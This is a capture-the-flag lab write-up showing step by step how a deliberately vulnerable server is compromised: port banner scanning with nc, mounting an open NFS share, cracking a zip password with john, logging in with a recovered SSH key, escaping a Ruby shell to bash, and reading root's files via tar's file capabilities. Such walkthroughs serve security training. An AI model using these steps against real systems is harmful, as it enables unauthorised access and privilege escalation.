 # SERVER FROM HELL WRITEUP
#### Author: DeadPackets
https://github.com/j0ndoe/server_from_hell/blob/main/images/elmo.jpeg
## [Task 1] Flag.txt | "Start at port 1337 and enumerate your way."
#### First connect to port 1337 with nc
```
Welcome traveller, to the beginning of your journey
To begin, find the trollface
Legend says hes hiding on the first 100 ports
Try printing the banners from the ports
```

### Write a simple script to connect from ports 1 - 100:
```bash
#!/bin/bash
for port in {1..100}
do
    nc 10.10.10.10 -p $port
done
```

Output of port 12345
```
NFS shares are cool, especially when they are misconfigured
It's on the standard port, no need for another scan
```

### NFS runs on port 2049
```
command:
showmount -e 10.10.10.10

output:
Export list for 10.10.10.10:
/home/nfs *
```

### Then just simply mount it
```
sudo mount -t nfs 10.10.0.10:/home/nfs /var/backups
```

### There is a file named backup.zip
#### But its password protected
```
zip2john backup.zip > hash
john hash -w ~/wordlists/rockyou.txt
```

### Once you've uncompressed the zip, we can see that it's hades's home directory
#### Output:
```
authorized_keys  flag.txt  hint.txt  id_rsa  id_rsa.pub
```

### Nice, we have the flag and an id_rsa key
##### The problem now is that we don't know which port ssh is running on, lets check the hint.
```
output:
2500-4500
```

## [Task 2] User.txt
#### this is probably refering the to range of ports that ssh is running on
#### lets modify our script
```bash
#!/bin/bash
for port in {2500..4500}
do
    ssh -i id_rsa hades@10.10.10.10 -p $port
done
```

### Now we just wait until we get a login prompt
#### Nice, we have a shell
```
 Welcome to hell. We hope you enjoy your stay!
 

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

 ██░ ██ ▓█████  ██▓     ██▓    
▓██░ ██▒▓█   ▀ ▓██▒    ▓██▒    
▒██▀▀██░▒███   ▒██░    ▒██░    
░▓█ ░██ ▒▓█  ▄ ▒██░    ▒██░    
░▓█▒░██▓░▒████▒░██████▒░██████▒
 ▒ ░░▒░▒░░ ▒░ ░░ ▒░▓  ░░ ▒░▓  ░
 ▒ ░▒░ ░ ░ ░  ░░ ░ ▒  ░░ ░ ▒  ░
 ░  ░░ ░   ░     ░ ░     ░ ░   
 ░  ░  ░   ░  ░    ░  ░    ░  ░
                               
 Welcome to hell. We hope you enjoy your stay!
 irb(main):001:0>
```
### We have a shell, but its an interactive ruby shell
#### A simple command will allow us to spawn a shell
```
irb(main):001:0> system("/bin/bash")
```

### And we have user.txt
```
hades@hell:~$ ls
user.txt
```

## [Task 3] Root.txt
#### Now all we have to do is escalate our privs
#### Looking at the hint, we know that "getcap" has something to do with our escalation.
We can find capabilties with the following command
```
hades@hell:~$ getcap -r / 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
/bin/tar = cap_dac_read_search+ep
```

### Looking at the output, we know that /bin/tar has read capabilites
##### It took me an embarrassingly long amount of time to realize that we did not have write access to /home/hades
##### So we need to do this in /dev/shm
#### tar -cvf root.tar /root/root.txt
#### tar -xvf root.tar
```
hades@hell:/dev/shm$ tar -cvf root.tar /root/root.txt
tar: Removing leading `/' from member names
/root/root.txt
hades@hell:/dev/shm$ ls
root.tar
hades@hell:/dev/shm$ tar -xvf root.tar
root/root.txt
hades@hell:/dev/shm$ ls
root  root.tar
hades@hell:/dev/shm$ cd root
hades@hell:/dev/shm/root$ ls
root.txt
```

## And we've rooted the box, nice


